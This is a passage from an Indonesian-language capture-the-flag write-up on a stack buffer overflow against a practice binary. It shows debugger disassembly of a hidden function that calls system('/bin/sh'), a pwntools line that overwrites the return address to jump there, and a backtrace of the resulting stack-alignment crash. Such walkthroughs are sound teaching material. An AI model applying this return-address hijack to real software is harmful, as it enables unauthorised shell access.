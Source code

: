 setelah `rsp` ter-overwrite dengan alamat dummy yaitu `0x4242424242424242` saat nya mencari alamat yang bisa digunakan untuk mendapatkan shell. jika dicermati lagi hasil disassambly pada filenya, selain fungsi main dan simple_say ada fungsi lain dengan nama `sym.run_me_from_main` jika di disassambly

```assembly
pwndbg> x run_me_from_main
0x4012c3 <run_me_from_main>:    0xfa1e0ff3
pwndbg> disass 0x4012c3
Dump of assembler code for function run_me_from_main:
   0x00000000004012c3 <+0>:     endbr64
   0x00000000004012c7 <+4>:     push   rbp
   0x00000000004012c8 <+5>:     mov    rbp,rsp
   0x00000000004012cb <+8>:     lea    rdi,[rip+0xd32]        # 0x402004
   0x00000000004012d2 <+15>:    call   0x4010d0 <system@plt>
   0x00000000004012d7 <+20>:    nop
   0x00000000004012d8 <+21>:    pop    rbp
   0x00000000004012d9 <+22>:    ret
End of assembler dump.
pwndbg>
```

fungsi ini memanggil perintah `system("/bin/sh")` yang ada di `call   0x4010d0 <system@plt>` jika alamat dummy diganti menjadi alamat `0x4012c3` harusnya bisa didapatkan shell.

```python
RIP = p64(0x4012c3)
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RIP)
```

![Gdb3](3.png)

ternyata tidak bisa langsung menuju kealamt tersebut, jika diperhatikan pada backtrace

```assembly
0x7f380c7b2fbc <do_system+364>    movaps xmmword ptr [rsp + 0x50], xmm0
...
...
 ► f 0   0x7f380c7b2fbc do_system+364
   f 1         0x4012d7 run_me_from_main+20
```
